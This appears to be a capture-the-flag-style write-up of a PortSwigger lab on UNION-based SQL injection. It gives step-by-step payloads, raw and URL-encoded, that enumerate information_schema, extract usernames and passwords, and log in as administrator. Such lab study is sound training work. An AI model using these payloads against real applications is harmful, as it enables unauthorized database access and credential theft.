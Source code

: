 
# SQL injection attack, listing the database contents on non-Oracle databases

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

___
**HINT:**
![screnshot](lab9_listing_content_of_database.jpg)

`SELECT * FROM information_schema.tables--`  => for table like `Product`,`Users` etc
`SELECT * FROM information_schema.columns WHERE table_name = 'Users'` => for `UserId`, `Password`

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=pets` => send to repeater

![screnshot](lab9_category_pets.jpg)

step 2

`SELECT * FROM information_schema.tables--`
you can rewrite payload using UNION
```sql
' UNION SELECT NULL,TABLE_NAME FROM information_schema.tables--
```

convert to URL Encoded
```sql
'+UNION+SELECT+NULL,TABLE_NAME+FROM+information_schema.tables--
```

`/filter?category=Pets'+UNION+SELECT+NULL,TABLE_NAME+FROM+information_schema.tables--`

![screnshot](lab9_user_table.jpg)

Table => `users_xqqeus`

step 3

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
Rewrite payload using UNION
```sql
' UNION SELECT NULL,COLUMN_NAME FROM information_schema.columns WHERE table_name = 'users_xqqeus'--
```

convert to URL Encoded
```sql
'+UNION+SELECT+NULL,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name+%3d+'users_xqqeus'--
```

`/filter?category=Pets'+UNION+SELECT+NULL,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name+%3d+'users_xqqeus'--`

![screnshot](lab9_user_id_password.jpg)

User-id => `username_wifoyz` Password => `password_jipwdz`

step 4

`SELECT * FROM Users`
Rewrite payload using UNION
```sql
' UNION SELECT username_wifoyz,password_jipwdz FROM users_xqqeus--
```

convert to URL Encoded
```sql
'+UNION+SELECT+username_wifoyz,password_jipwdz+FROM+users_xqqeus--
```

`/filter?category=Pets'+UNION+SELECT+username_wifoyz,password_jipwdz+FROM+users_xqqeus--`

![screnshot](lab9_administrator_password.jpg)


step 5

To solve the lab use administrator id and password
```html
<tr>
	<th>administrator</th>
	<td>ete87avuw1cw7826f8ec</td>
</tr>
```

![screnshot](lab9_solved_lab.jpg)